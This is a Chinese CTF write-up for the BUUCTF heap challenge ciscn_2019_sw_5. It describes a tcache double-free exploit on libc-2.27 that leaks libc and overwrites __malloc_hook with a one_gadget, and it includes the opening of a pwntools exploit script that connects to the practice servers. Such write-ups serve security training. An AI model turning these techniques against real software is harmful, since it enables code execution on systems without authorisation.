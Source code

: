 ```py
    if debug == 1:
        p = process('./chall')
    else:
        p = remote('119.3.172.70',10005)

```

## BUUCTF

### ciscn_2019_sw_5/ciscn_2019_nw_2

### 程序逻辑

libc-2.27，固定分配`0x70`(chunk大小为`0x80`)只能free`3`次，但malloc之后会输出一次数据，输入技巧题。

### 漏洞利用

先double free，分配到`tcache_struct`里`0x80`对应的位置(需要爆破`1/16`)，构造一个tcache chain出来，比如我这里是往里写一个`*2b0`而`*2b0`后面跟着`*2e0`，进而得到一个`*2b0->*2e0`的链，之后分配到`*2b0`修改`*2e0`的size为`0x421`(注意后面要有一个fake_chunk的prev_in_use=1)，Free掉这个块即可得到Ub(注意此时因为fd=`main_arena+96`又出了新的链`*2e0->main_arena+96`)，再Malloc可以根据末位一定是`\xa0`分配到`*2d0`泄露libc，再分配到`main_arena+96`修改`top_chunk`到`__malloc_hook`前面，最后把刚才那个`0x420`大小的ub分配完再走`top_chunk`，最终分配到`__malloc_hook`改为`gadgets[1]`即可。

问了队友胡师傅(ID太长记不住)，有另一种解法，改tcache的块数量为`0xff`，double free用来伪造fake chunk的`size`为0x210，与此同时还能写`tcache[0x80]`这个块到`fake chunk`，之后可以分配得到这个块，再释放就到了`ub`。再分配就可以覆写tcache[0x80]到malloc_hook。

远程数据发送过快可能会粘包，所以这里加了`raw_input()`多试试就好。

### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 0
elf = ELF('./ciscn_2019_sw_5')
libc_offset = 0x3c4b20
gadgets = [0x4f2c5,0x4f322,0x10a38c]
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
if debug:
    p = process('./ciscn_2019_sw_5')
else:
    p = remote('node3.buuoj.cn',28453)

def Add(title=p64(0),content=p64(0x21)*13):
    p.recvuntil('>> ')
    p.sendline('1')
    p.recvuntil("title:\n")
    p.send(title)
    p.recvuntil("content:")
    p.send(content)

def Delete(index):
    p.recvuntil('>> ')
    p.sendline('2')
    p.recvuntil("index:\n")
    p.sendline(str(index))

def Trigger():
    p.recvuntil('>> ')
    p.sendline('3'*0x5000)


```